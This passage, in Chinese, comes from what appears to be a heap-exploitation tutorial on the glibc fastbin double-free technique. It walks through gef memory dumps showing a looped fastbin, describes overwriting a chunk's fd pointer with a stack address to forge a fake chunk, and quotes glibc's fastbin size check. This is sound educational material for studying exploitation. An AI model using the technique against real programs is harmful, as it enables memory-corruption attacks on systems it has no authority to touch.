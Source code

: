 三个 free 之后：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021 <-- chunk a [be freed twice]
0x602010:   0x0000000000602020  0x0000000000000000      <-- fd pointer
0x602020:   0x0000000000000000  0x0000000000000021 <-- chunk b [be freed]
0x602030:   0x0000000000602000  0x0000000000000000      <-- fd pointer
0x602040:   0x0000000000000000  0x0000000000000021 <-- chunk c
0x602050:   0x4343434343434343  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000020fa1
0x602070:   0x0000000000000000
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602030, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)  →  [loop detected]
```

这一次 malloc 之后，我们不再填充无意义的 "DDDDDDDD"，而是填充一个地址，即栈地址减去 0x8，从而在栈上伪造出一个 free 的 chunk（当然也可以是其他的地址）。这也是为什么 `stack_var` 被我们设置为 `0x21`（或`0x20`都可以），其实是为了在栈地址减去 0x8 的时候作为 fake chunk 的 size 字段。

glibc 在执行分配操作时，若块的大小符合 fast bin，则会在对应的 bin 中寻找合适的块，此时 glibc 将根据候选块的 size 字段计算出 fastbin 索引，然后与对应 bin 在 fastbin 中的索引进行比较，如果二者不匹配，则说明块的 size 字段遭到破坏。所以需要 fake chunk 的 size 字段被设置为正确的值。

```c
/* offset 2 to use otherwise unindexable first 2 bins */
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

  if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      [...]

      if (victim != 0)
        {
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
            {
              errstr = "malloc(): memory corruption (fast)";
              [...]
            }
            [...]
        }
    }
```

简单地说就是 fake chunk 的 size 与 double-free 的 chunk 的 size 相同即可。

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021 <-- chunk d
0x602010:   0x00007fffffffdc30  0x0000000000000000      <-- fd pointer
0x602020:   0x0000000000000000  0x0000000000000021 <-- chunk b [be freed]
0x602030:   0x0000000000602000  0x0000000000000000      <-- fd pointer
0x602040:   0x0000000000000000  0x0000000000000021 <-- chunk c
0x602050:   0x4343434343434343  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000020fa1
0x602070:   0x0000000000000000
gef➤  p &stack_var
$4 = (unsigned long long *) 0x7fffffffdc38
gef➤  x/5gx 0x7fffffffdc38-0x8
0x7fffffffdc30: 0x0000000000000000  0x0000000000000021 <-- fake chunk [seems to be freed]
0x7fffffffdc40: 0x0000000000602010  0x0000000000602010      <-- fd pointer
0x7fffffffdc50: 0x0000000000602030
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
```